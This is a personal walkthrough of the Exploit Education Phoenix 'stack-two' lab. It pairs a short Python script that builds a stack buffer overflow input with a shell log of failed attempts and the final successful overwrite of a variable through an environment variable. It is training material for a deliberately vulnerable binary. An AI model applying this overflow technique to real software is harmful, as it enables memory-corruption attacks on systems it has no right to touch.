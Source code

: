 ### Stacktwo 

This one was challenging for me to understand, I really really struggled with it even though it was easy.
First mistake that I had made was that I didnt read code carefully which lead me to not see that we need to set up the ExploiEducation 
Env variable, which is kinda terrible. An oversight like this really shows how much more i need to study and understand

Nevertheless Once I saw the solution online I was embarassed af and then went ahead to write the code to solve it.
Its technically the same except we need to pass answers via env var.
Also I was terribly embarassed that I had forgotten how to reverse a string in python

### Code
```python3
padding = 'A'*64
offset = '\x0d\x0a\x09\x0a'
print(padding+offset[::-1])

```

### Creds
```
No credentials/flag.
```

### Logs
```
➜  amd64 echo $(python3 -c 'print("A"*65+'\r\n\t\n')') | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'rntn' is not defined
➜  amd64 out=$(python3 ~/code/stack-two.py)
➜  amd64 echo -ne $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 out=$(python3 ~/code/stack-two.py)
➜  amd64 echo -ne $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 echo $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 python3 ~/code/stack-two.py| ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='UTF-8'>
BrokenPipeError: [Errno 32] Broken pipe
➜  amd64 (python3 ~/code/stack-two.py) ./stack-two
zsh: parse error near `./stack-two'
➜  amd64 $(python3 ~/code/stack-two.py) ./stack-two
zsh: command not found: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^M
➜  amd64 ./stack-two $(python3 ~/code/stack-two.py)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ./stack-two
export: not valid in this context: ./stack-two
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x090a0d41, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x0a090a41, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
➜  amd64 



```


 ~Kurama
